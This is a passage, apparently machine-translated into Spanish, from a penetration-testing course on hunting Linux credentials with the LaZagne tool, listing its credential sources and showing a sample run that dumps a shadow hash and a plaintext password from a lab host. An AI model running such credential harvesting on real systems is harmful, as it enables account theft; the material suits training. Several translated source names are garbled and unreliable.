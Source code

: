Una herramienta aún más poderosa que podemos usar que se mencionó anteriormente en la caza de credenciales en la sección de Windows es`LaZagne`. Esta herramienta nos permite acceder a muchos más recursos y extraer las credenciales. Las contraseñas y hashes que podemos obtener provienen de las siguientes fuentes, pero no se limitan a:

|  |  |  |  |
| --- | --- | --- | --- |
| Wifi | WPA_Supplicant | Libsecret | Kwallet |
| Basado en el cromo | CLI | Mozilla | Trueno |
| Git | Env_variable | Comida | Fstab |
| AWS | Filezilla | GFTP | Ssh |
| apache | Sombra | Estibador | Conserva |
| Mimipy | Sesiones | Llave |  |

Por ejemplo,`Keyrings`se utilizan para el almacenamiento seguro y la gestión de contraseñas en las distribuciones de Linux. Las contraseñas se almacenan encriptadas y protegidas con una contraseña maestra. Es un administrador de contraseñas basado en el sistema operativo, que discutiremos más adelante en otra sección. De esta manera, no necesitamos recordar cada contraseña y podemos guardar las entradas de contraseña repetidas.

### **Memoria - Lazagne**

Cedencial de caza en Linux

```
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: sambauser
Hash:$6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI.8negiUSPqaWyv7wC8uwsWPrx1:18862:0:99999:7:::[+] Password found !!!
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY

[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.50091600418

```

